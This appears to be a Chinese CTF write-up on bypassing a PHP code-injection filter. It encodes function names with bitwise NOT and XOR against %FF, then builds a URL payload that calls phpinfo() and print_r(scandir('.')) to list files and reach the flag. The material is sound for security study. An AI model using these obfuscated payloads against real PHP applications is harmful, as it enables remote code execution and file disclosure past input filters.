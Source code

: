 #### 解题：

先看一下phpinfo():

```php
<?php
$str = "p h p i n f o";
$arr1 = explode(' ', $str);
echo "~";
foreach ($arr1 as $key => $value) {
    echo "%".bin2hex(~$value);   //其实url编码就是一个字符ascii码的十六进前面加上%
}
得到：(~%8f%97%8f%96%91%99%90)();
```

![image-20231024102423566](assets/image-20231024102423566.png)

禁用了很多的函数，但是我们仍可以用scandir()、var_dump()、readfile()、print_r()等来查看目录，并读取flag，先print_r(scandir(.))输出当前目录下的内容

```php
<?php
$str = "p r i n t _ r";//s c a n d i r
$arr1 = explode(' ', $str);
echo "~";
foreach ($arr1 as $key => $value) {
    echo "%".bin2hex(~$value);   //其实url编码就是一个字符ascii码的十六进前面加上%
}
得到输出：
~%8F%8D%96%91%8B%A0%8D
~%8C%9C%9E%91%9B%96%8D
~%D1
    
//print_r浏览器传递取反用异或表示如下：    
<?php
echo urlencode('print_r' ^ urldecode('%ff%ff%ff%ff%ff%ff%ff'));
//输出：%8F%8D%96%91%8B%A0%8D    因此有：urldecode('%8F%8D%96%91%8B%A0%8D')^urldecode('%ff%ff%ff%ff%ff%ff%ff')=print_r
由此构造payload:
//print_r(scandir(.));
?_=(%8F%8D%96%91%8B%A0%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%D1)^(%FF)));
```
